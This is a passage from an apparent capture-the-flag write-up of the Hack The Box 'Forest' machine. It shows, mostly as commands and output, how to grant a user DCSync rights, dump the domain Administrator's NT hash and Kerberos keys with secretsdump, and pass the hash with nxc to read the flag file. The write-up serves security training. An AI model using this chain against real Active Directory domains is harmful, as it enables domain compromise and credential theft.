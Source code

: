Next, we can assign **DCSync rights** to the user, perform the [**DCSync**](https://app.gitbook.com/s/VQuTz1o4xYFE8N6tz9Vv/attacks/dcsync) **attack** and obtain the `Administrator`'s NT hash from our attack host.

{% code overflow="wrap" %}
```bash
# assign DCSync rights to the user
$ /opt/DCSync/DCSync.py -dc htb.local -t 'CN=hacker,CN=Users,DC=htb,DC=local' 'htb.local\hacker:h@ck3r!'
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

[*] Starting DCSync Attack against CN=hacker,CN=Users,DC=htb,DC=local
[*] Initializing LDAP connection to htb.local
[*] Using htb.local\hacker account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Querying domain security descriptor
[*] Success! User hacker now has Replication-Get-Changes-All privileges on the domain
[*] Try using DCSync with secretsdump.py and this user :)
[*] Saved restore state to aclpwn-20240321-182755.restore

# perform the DCSync attack
$ secretsdump htb.local/hacker@10.10.10.161 -just-dc-user administrator
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32<REDACTED>a6:::
[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
[*] Cleaning up...
```
{% endcode %}

Finally, we can use the `Adnimistrator`'s credentials to compromise the `root.txt` file:

{% code overflow="wrap" %}
```bash
$ nxc smb 10.10.10.161 -u administrator -H '326<REDACTED>ea6' -X 'gc ~\Desktop\root.txt'
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\administrator:326<REDACTED>ea6 (Pwn3d!)
SMB         10.10.10.161    445    FOREST           [+] Executed command via wmiexec
SMB         10.10.10.161    445    FOREST           2e6<REDACTED>8e1
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="Account Operators Exploitation" %}
{% embed url="https://www.whiteoaksecurity.com/blog/account-operators-privilege-escalation/" %}
{% endtab %}
{% endtabs %}
